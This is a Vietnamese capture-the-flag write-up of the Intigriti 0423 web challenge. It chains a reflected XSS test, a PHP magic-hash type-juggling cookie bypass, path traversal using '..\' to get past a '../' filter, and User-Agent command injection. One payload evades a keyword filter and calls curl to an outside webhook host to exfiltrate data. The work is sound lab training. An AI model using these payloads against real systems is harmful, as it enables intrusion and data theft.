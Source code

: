 # [Intigriti] Challenge-0423
<p>Đầu tiên, tại /challenge.php nhận về một giao diện trang login. Đề bài đã cho sẵn username=strange và password=monkey để login. Sau khi login, server trả về 2 cookie là username và account_type rồi chuyển hướng về /dashboard.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image.png)

<p>Thay đổi cookie username và account_type bằng cách giá trị khác nhau nhưng không có dấu hiệu gì đặc biệt ở response.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-1.png)

<p>Kiểm tra các thư mục có listing hay không? Kết quả là không được phép truy cập và qua việc này thì phát hiện ra được thông tin web server là nginx/1.24.0. Bây giờ, có 2 hướng để đi tiếp là thử các payload SQL injection ở chức năng login hoặc là tìm các lỗi nằm trên nginx/1.24.0. Tạm thời ưu tiên test chức năng login trước.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-2.png)

<p>Sử dụng kí tự ' thì server trả về response yêu cầu điều hướng tới /index_error.php?error=invalid username or password.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-3.png)

<p>Sau đó, nhận được response có một dòng comment "Nhớ sử dụng strict comparison" -> Có vẻ như đây là gợi ý trang web bị lỗi type juggling. Các vị trí có khả năng bị type juggling có thể xảy ra là login, cookie. Điều đáng chú ý là giá trị của tham số error có vẻ như được render trực tiếp ra HTML response -> Có khả năng bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-4.png)

<p>Thử &lth1&gta thì xác định HTML injection thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-5.png)

<p>Thử &ltscript&gtalert(origin)&lt/script&gt thì xác định đúng trang web này đã bị XSS.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-6.png)

<p>Quay về trang login, mình có thắc mắc là server có nhận dữ liệu dưới dạng nào khác ngoài form không ? (ví dụ như là json, xml,...). Sau khi đổi định dạng là json và gửi đi thì phát hiện ra có vẻ như trang này chưa tắt cấu hình display_errors dẫn đến hiển thị waring ở phía client. Dựa vào warning thì xác định được 2 điều: không nhận dữ liệu json khi login và đường dẫn tới trang login là /app/login.php. Vì không nhận dữ liệu json nên giả thuyết sử dụng "psw": true là coi như loại -> Khả năng bị type juggling còn lại là nằm trong cookie.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-7.png)

<p>Giá trị của cookie account_type khá đặc biệt, là một chuỗi không rõ có ý nghĩa gì và khi thay đổi thì response cũng không có dấu hiệu gì đặc biệt. Dựa vào tên "account_type" thì mình đoán có thể giá trị là một mã để phân biệt các loại tài khoản (VIP, Normal,...). Có thể là các giá trị sẽ được hash, encrypt,... để so sánh với giá trị nào đó ở phía server. Liên quan đến hash thì trong type juggling có các chuỗi được gọi là magic hash. Ý tưởng bây giờ là thử các hash phổ biến như MD5, SHA1,.. Tìm chuỗi sau khi hash MD5 có dạng 0e... -> Chọn "etqaTTFXeujI" và response trả về có một element khá đặc biệt. Dựa vào tiêu đề &lt;h3 id=&quot;custom_image.php - try to catch the flag.txt ;)&quot;&gt;A special golden wall just for Premium Users ;) &lt;/h3&gt; có thể đoán rằng truy cập đến /custom_image.php để tìm flag.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-8.png)

<p>Tại /custom_image.php, browser render ra một image là một bức tường màu vàng. Dựa vào tên file thì khả năng cao là endpoint này xử lý gì đó rồi mới trả về nội dung tấm ảnh chứ sử dụng file .php chỉ trả về nội dung ảnh thì không hợp lí cho lắm. Tại vì, hầu hết những ảnh trên trang web này đều được lưu tập trung trong các thư mục cụ thể như là resources hoặc images. Bây giờ, có 2 hướng để tiếp tục là fuzz các parameter tại /custom_image.php hoặc là đi tìm bí mật nào đó được giấu trong ảnh này</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-9.png)

<p>Sử dụng một số tools: exiftool, steghide,... thì kết quả cũng không có gì đáng chú ý -> Hướng này có vẻ fail</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-10.png)

<p>Quay lại hướng thứ nhất, sử dụng ffuf để fuzz parameter. Vì trong lần fuzz đầu tiên có khá nhiều kết quả có cùng kích thước nên tạm thời filter các response có cùng size -> Kết quả tìm được một parameter là file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-11.png)

<p>Chưa rõ là tham số file này yêu cầu giá trị là gì. Có thể là đường dẫn tương đối hoặc tuyệt đối. Tuy nhiên, vì đã biết là trang này sẽ hiển thị các warning và error nên mình sẽ cố gắng thử các trường hợp gây ra error/warning để leak thêm thông tin. Thử truyền tham số với kiểu array thì gây ra lỗi thành công. Dựa vào stack trace: lỗi bắt đầu từ dòng code thứ 12 khi sử dụng strpos(Array, "../") -> mình đoán tham số đầu tiên của hàm strpos là biến nhận giá trị của tham số file vì tôi đã truyền vào một mảng nên bị lỗi là đúng và tham số thứ hai là "../" -> Có vẻ như dòng code này dùng để kiểm tra chuỗi "../" gây path traversal trong giá trị của tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-12.png)

<p>Sử dụng một đường dẫn tuyệt đối có sẵn trên web để test. Kết quả là hiển thị một thông báo lỗi leak ra file_get_content và đọc nội dung từ đường dẫn lấy từ tham số file.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-13.png)

<p>Thử thêm chuỗi "../" thì bị replace đi -> Có vẻ như strpos ở dòng 12 sẽ tìm chuỗi "../" và sau đó thực hiện replace rồi mới đưa vào hàm file_get_content. Chưa rõ là việc replace này có lặp lại nhiều lần hay không nên cần phải test thêm.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-14.png)

<p>Chèn thêm các chuỗi "../" vào giữa thì tất cả đều đã bị replace -> Hướng sử dụng "../" có vẻ fail. Tuy nhiên, nếu server sử dụng hệ điều hành Windows thì vẫn còn một cách khác. Đó là sử dụng kí tự \ thay vì /.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-15.png)

<p>Vậy là thành công bypass việc kiểm tra "../" bằng cách sử dụng "..\"</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-16.png)

<p>Tuy nhiên, sử dụng bao nhiêu "..\" cũng không tìm thấy flag.txt -> Có vẻ như thư mục www nằm trong thư mục chứa mã nguồn của trang web chứ không phải nằm trong thư mục gốc</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-17.png)

<p>Thay thế bằng www/web/images/ và thử lại -> Thành công</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-18.png)

<p>Chuyển đổi kiểu dữ liệu thành text/plain để xem nội dung gốc. Có vẻ nội dung gợi ý truy cập đến /e7f717ed-d429-4d00-861d-4137d1ef29az/9709e993-be43-4157-879b-78b647f15ff7/admin.php.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-19.png)

<p>Tương tự, ra được nội dung admin.php. Có một dòng code sử dung shell_exec nhận giá trị từ trường User-Agent trên HTTP Header -> Khả năng bị OS Command injection. Nhìn chung thì việc sử dụng blacklist và sau đó replace trong trường này vẫn bypass được. Thứ nhất, blacklist vẫn thiếu  các kí tự như: ` $ ( ) . Thứ hai, việc replace các chuỗi khớp với phần trong blacklist thì hợp lí với các ký tự lẻ còn với từ 2 kí tự khác nhau trở lên thì hoàn toàn có thể chèn thêm chuỗi ở giữa để bypass.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-20.png)

<p>Đầu tiên, sử dụng payload: `cucurlrl${IFS}https://webhook.site/7d182ba8-11b7-405f-bcdd-ad2ad82e6254` để xem thực sự có tồn tại lệnh curl và server có được phép kết nối ra ngoài internet hay không. Có request gửi tới webhook -> Curl thành công. Tiếp theo, để leak data ra ngoài bằng lệnh curl thì có thể truyền qua tham số hoặc dùng data-binary . Tuy nhiên, cách sử dụng data-binary có vẻ không khả thi.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-21.png)

<p>Ban đầu, khi sử dụng cat để đọc nội dung flag.txt thì nội dung trả về là rỗng. Có vẻ như tên file chứa flag không phải là flag.txt nên thay vào đó mình sử dụng kí tự để đọc file .txt. -> Lấy được flag thành công.</p>

![alt text](/thanhlai/post/web_exploitation/image/post1/image-22.png)

<p>Tóm lại, đây là toàn bộ nội dung về challenge. Hy vọng writeup này giúp ích cho bạn 🔥.</p>
